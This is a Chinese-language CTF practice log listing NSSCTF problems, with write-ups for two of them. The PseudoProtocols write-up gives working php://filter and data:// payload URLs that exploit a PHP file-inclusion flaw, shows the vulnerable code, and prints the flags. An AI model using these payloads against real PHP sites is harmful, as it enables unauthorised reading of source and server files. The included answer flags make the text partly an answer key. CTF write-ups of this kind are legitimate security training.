 # 2025-02-27 题单

## 题单

- [x] [SWPUCTF 2021 新生赛]PseudoProtocols https://www.nssctf.cn/problem/441

- [x] [b01lers 2020]minecraft_purdue https://www.nssctf.cn/problem/3489

- [ ] [SUCTF 2018 招新赛]babyarray

- [ ] [HNCTF 2022 Week1]超级签到

- [ ] [N1CTF 2024]N0TR5A

## 题解

### [SWPUCTF 2021 新生赛]PseudoProtocols

#### 关键词

- php伪协议

#### 题目描述

无描述

#### 题解

- 观察网站结构

```
http://node7.anna.nssctf.cn:21388/index.php?wllm=
```

- 我们尝试直接在等号后面添加flag

![alt text](image.png)

- 猜测是php伪协议，以下是php伪协议的常用方法

```
?file=php://filter/convert.base64-encode/resource=index.php
```

- 访问

```
http://node7.anna.nssctf.cn:21388/index.php?wllm=php://filter/convert.base64-encode/resource=hint.php
```

![alt text](image-1.png)

- 解码

![alt text](image-2.png)

- 解码后发现要去/test2222222222222.php文件

![alt text](image-3.png)

- 继续解码得到

```php
<?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
	echo "success\n";
	echo $flag;
}
```

- 通过以下模版进行访问

```php
?a=data://text/plain,
```

- 最终构造的payload

```php
http://node7.anna.nssctf.cn:21388/test2222222222222.php?a=data://text/plain,I want flag
```

- 最终得到flag

```php
<?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
    echo "success\n";
    echo $flag;
}
?> success NSSCTF{89291858-d079-4281-a5d5-8a43620126bb}
```

#### 答案

```
NSSCTF{89291858-d079-4281-a5d5-8a43620126bb}
```

### [b01lers 2020]minecraft_purdue

#### 关键词

- 我的世界！启动！

#### 题目描述

无描述

#### 题解

-  根据经验这是一个minecraft的题目，需要我们进入地图
-  我们通过～/Library/Application Support/minecraft/saves路径导入地图
-  然后在地图里面找就可以了

![alt text](image-5.png)

- 别问，问就是把学校炸了......

#### 答案

```
NSSCTF{M1NE}
```


